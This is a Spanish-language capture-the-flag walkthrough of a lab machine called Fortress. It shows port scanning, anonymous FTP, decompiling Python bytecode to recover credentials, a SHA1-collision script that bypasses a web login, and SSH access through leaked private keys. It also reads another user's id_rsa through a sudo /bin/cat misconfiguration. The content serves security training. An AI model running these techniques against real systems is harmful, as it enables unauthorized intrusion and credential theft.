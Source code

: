 ###Tags: `` `` ``

# Escaneo (*22,5581,5752,7331*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <ip> -oN escaneo
```
![image](https://github.com/user-attachments/assets/22e7607e-cb95-468b-a4d8-de6d863b9345)

-  En la descripción del CTF nos dice que agreguemos estos dos dominios al **/etc/hosts** `fortress y temple.fortress`

# FTP (*anonymous*)

Nos conectamos como el user **anonymous** sin proporcionar contraseña y nos traemos el ``.txt`` y un `.file`

```ruby
 ftp 10.10.11.86 -p 5581
```
![image](https://github.com/user-attachments/assets/9db41c68-2eed-4b8e-bb7b-2ab1c7d4e0a9)

Le hacemos un cat al archivo `marked.txt` y dice lo siguiente:

```
If youre reading this, then know you too have been marked by the overlords... Help memkdir /home/veekay/ftp I have been stuck inside this prison for days no light, no escape... Just darkness... Find the backdoor and retrieve the key to the map... Arghhh, theyre coming... HELLLPPPPPmkdir /home/veekay/ftp
```

Vemos una ruta `home/veekay/ftp`, un usuario `veekay`
Y el archivo `.file` es un es un archivo de bytes compilado en Python 2.7

![image](https://github.com/user-attachments/assets/0b4b41a8-189a-49d0-aad2-e26822e44e47)

### Descompilar 

Vamos a descompilar el archivo de esta manera usando `uncompyle2`, este repo lo que hace es descompilar el código de bytes de la versión 2.5, 2.6, 2.7 de Python

```ruby
https://github.com/BlueEffie/uncompyle2.git
cd uncompyle2
sudo python2 setup.py install
cd ..
uncompyle2 .file
```

![image](https://github.com/user-attachments/assets/f8ee0d00-43d5-4e8e-9f6e-899b7e872389)

Creé un pequeño script en Python que me permitiría decodificar las credenciales que espera el servicio. 

```python
from Crypto.Util.number import long_to_bytes 

usern = 232340432076717036154994 
passw = 10555160959732308261529999676324629831532648692669445488 

print(long_to_bytes(usern)) 
print(long_to_bytes(passw))
```

![image](https://github.com/user-attachments/assets/020333d9-94df-4190-90cb-603ade47ab34)

Ahora como vemos llama al puerto 5752 que nos podemos conectar por **telnet** poniendo estas credenciales 

```ruby
 telnet <ip> 5752
```

Observamos como una clave `t3mple_0f_y0ur_51n5`

![image](https://github.com/user-attachments/assets/ab1fe7d9-3197-42e8-a2a7-86d784d4cfdf)

# Port 7331

En la web ponemos `http://fortress:7331/t3mple_0f_y0ur_51n5.php` y en código fuente vemos lo siguiente

![image](https://github.com/user-attachments/assets/19660ad2-3058-4890-bd15-f780b3f345a9)

Probando con mas extensiones, en  `http://fortress:7331/t3mple_0f_y0ur_51n5.html`

![image](https://github.com/user-attachments/assets/0a54cb88-1047-4354-aea0-105015713157)

Y acá la verdad probando cosas no encontré nada y tuve que ver como se hacia y es de esta manera:
Primero tenemos que ir a este [Enlace](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) y copiarnos este script:

```python
#!/usr/bin/env python
import requests

# this is copy/paste from Hex editor - two different files with the same SHA1 checksum
name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

print '[+] create URL decoded strings to send as GET parameters [name] and [password]...'
name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

print '[+] sending request to http://54.202.82.13/?name=[name]&password=[password]'

u = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)

resp = requests.get(u, headers={
    'Host': 'fortress'
})

print '[+] read FLAG from response...\n\n'
print resp.content
```

Ahora lo ejecutamos y obtenemos un archivo llamado `m0td_f0r_j4x0n.txt`

![image](https://github.com/user-attachments/assets/570a6019-fda2-4e9d-9628-deca889f5da0)

Encontramos una clave `id_rsa` que puede ser del user `h4rdy`

![image](https://github.com/user-attachments/assets/40c782df-a40a-4bfe-85a8-a2da51f09e57)

## SSH (`h4rdy`)

Lo que tenemos que hacer es iniciar sesión con h4rdy usuario con el siguiente comando:

```ruby
 nano id_rsa
 chmod 600 id_rsa
 ssh -i id_rsa h4rdy@<IP> -t "bash --noprofile"
```

![image](https://github.com/user-attachments/assets/85459f49-11e7-4c27-906f-54081be12ffa)

# Escalada (`j4x0n`)

Poniendo `sudo -l` observamos que podemos ejecutar **/bin/cat** como el usuario *j4x0n*

![image](https://github.com/user-attachments/assets/e7cd23e7-b0af-41d9-a6f2-e96ac06e43d4)
![image](https://github.com/user-attachments/assets/e5c71fac-56a4-4e23-bd86-2a66a65f9882)

Ahora tratamos de obtener su **id_rsa** de esta manera  y tuvimos éxito! ---> `/usr/bin/sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa`

![image](https://github.com/user-attachments/assets/3f9f3171-6550-4f44-8057-3bee03f9a9a3)

Nos conectamos de esta manera como el user **j4x0n**

```ruby
 nano j4x0n_rsa
 chmdo 600 j4x0n_rsa
 ssh -i j4x0n_rsa j4x0n@<IP> -t "bash --noprofile" 
```
![image](https://github.com/user-attachments/assets/ca51b137-3f84-43a3-ba53-31b604a7079a)

# Escalada ``ROOT``

En el directorio `/data` , tenemos un archivo `setup.sh` que se utiliza para configurar la máquina cada vez que se enciende.
Puedo encontrar las banderas y la contraseña de root aquí

![image](https://github.com/user-attachments/assets/de2a589c-f439-4424-9b49-6912e9178747)


